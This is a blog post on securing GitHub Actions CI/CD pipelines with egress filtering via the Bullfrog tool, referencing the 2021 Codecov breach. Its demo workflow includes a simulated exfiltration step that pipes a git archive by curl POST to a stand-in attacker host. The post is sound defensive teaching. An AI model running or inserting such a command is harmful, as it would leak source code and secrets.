

Securing CI/CD Pipelines with Egress Filtering
June 2024
Developers often focus on securing their production environments, yet they often overlook securing their CI/CD pipeline — a crucial component of their system. These pipelines can serve as a hidden entry point for attackers.
Modern development relies heavily on third-party integrations within pipelines, like GitHub Actions, npm packages, and Docker images. While these tools accelerate development, they also introduce potential security risks.
By default, many CI/CD pipelines operate with unrestricted outbound traffic, essentially acting like wide-open highway for data. This convenience creates a significant security blind spot. Malicious code hidden within trusted third-party libraries could exploit this openness to exfiltrate sensitive data or source code.
The 2021 Codecov Breach: A Valuable Lesson
The 2021 Codecov incident serves as a good reminder of the potential dangers lurking within CI/CD pipelines. Attackers infiltrated Codecov's Bash Uploader, a tool used to upload code coverage data. This compromise allowed them to execute arbitrary commands within the CI/CD pipelines of all Codecov users. Due to a lack of egress filtering in many pipelines, attackers were able to steal sensitive information, like secrets stored in environment variables. This incident highlights the critical importance of robust security measures throughout the entire development lifecycle, including CI/CD pipelines.
Egress Filtering: A Firewall for Outbound Traffic
To address this security risk, egress filtering acts as a firewall specifically for outbound data. It monitors and restricts outgoing connections based on pre-defined rules, ensuring only authorized connections occur. This strengthens your CI/CD pipeline security by preventing unauthorized outbound connections.
Implementing Egress Filtering for GitHub Workflows
Here's how you can implement egress filtering in your GitHub workflows using Bullfrog, an open-source tool.
Add the following step at the beginning of your job configuration file:
- name: Bullfrog Secure Runner
uses: bullfrogsec/bullfrog@v0
with:
egress-policy: block
By default, this configuration blocks all outbound connections from your workflow. To allow specific domains or IP addresses, modify the configuration as needed. For example, to allow connections to example.com, adjust the configuration as follows:
- name: Bullfrog Secure Runner
uses: bullfrogsec/bullfrog@v0
with:
allowed-domains: |
example.com
egress-policy: block
Example Scenario
Below is a practical example demonstrating how egress filtering effectively blocks a malicious script from attempting to exfiltrate sensitive information. You can explore this example at github.com/larose/bullfrog-demo.
jobs:
with-bullfrog:
runs-on: ubuntu-24.04
timeout-minutes: 2
steps:
- name: Checkout
uses: actions/checkout@v4.1.7
- name: Bullfrog Secure Runner
uses: bullfrogsec/bullfrog@v0
with:
allowed-domains: |
example.com
egress-policy: block
- name: Simulate Legitimate HTTP Requests
run: |
# This call is allowed since example.com is specified in the allowed-domains variable above
curl -I https://example.com
- name: Simulate Malicious Script
run: |
echo "Creating an archive of the HEAD of the git repo and uploading it to a malicious server"
git archive HEAD | curl -X POST -H "Content-Type: application/octet-stream" --data-binary @- https://jsonplaceholder.typicode.com/git-repo
# This line is not reached due to blocked egress
See the workflow run below:

This demonstration highlights how the attempt to connect to jsonplaceholder.typicode.com, representing an attacker's server in this scenario, was blocked.
Of course, the threat typically doesn't originate from an overtly malicious script like the one shown above. Instead, it often arises from a compromised trusted third-party library, similar to what occurred in the Codecov breach. Egress filtering plays a crucial role in mitigating these risks by strictly controlling outgoing connections, ensuring that your workflows do not unintentionally transmit sensitive information.
Like this article? Get notified of new ones: